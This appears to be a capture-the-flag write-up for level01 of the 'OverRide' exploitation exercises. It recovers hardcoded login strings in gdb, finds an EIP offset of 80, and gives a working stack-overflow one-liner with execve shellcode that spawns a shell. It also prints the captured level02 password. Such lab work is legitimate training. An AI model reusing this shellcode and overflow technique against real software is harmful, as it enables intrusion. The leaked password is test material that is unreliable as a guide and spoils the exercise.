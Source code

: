 # level01
The program waits for 2 user inputs, a login and a password, the login gets stored in a global variable, a_user_name:

(gdb) info variables
All defined variables:

Non-debugging symbols:
[...]
0x0804a040  a_user_name

The password gets stored in a stack-allocated buffer.

When we disassemble the 2 functions `verify_user_name` and `verify_user_pass` we find that the user inputs get compared to "dat_wil" and "admin", respectively.

We can overflow the stack-allocated buffer to execute our shellcode, using a pattern generator, we find the offset required to overwrite eip is 80.
We'll want to store our shellcode in the global buffer, it makes it so that we don't have to deal with changes in addresses.

To get access to the stack buffer, we'll have to pass the strncmp, that means we'll want to prepend "dat_wil" to our global variable.


gdb ./level01
(gdb) b *0x080485af
(gdb) r

dat_wil
01234567890123456789012345678901234567890123456789012345678901234567890123456789BBBB

(gdb) c
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()


Our input will be as follow
bytes 0-6: "dat_wil", to pass the `verify_user_name` function.
bytes 7-31: Our 24 bytes shellcode
bytes 31: '\n', so that the first fgets stops taking user input
bytes 32-112: Filler bytes, 80 of them to overwrite eip with the next 4 bytes.
bytes 112-116: The address of the global variable taken above + 7, to ignore the "dat_wil" that we first inputed


level01@OverRide:~$ cat <(python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'a' * 80 + '\x08\x04\xa0\x47'[::-1]")  - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv









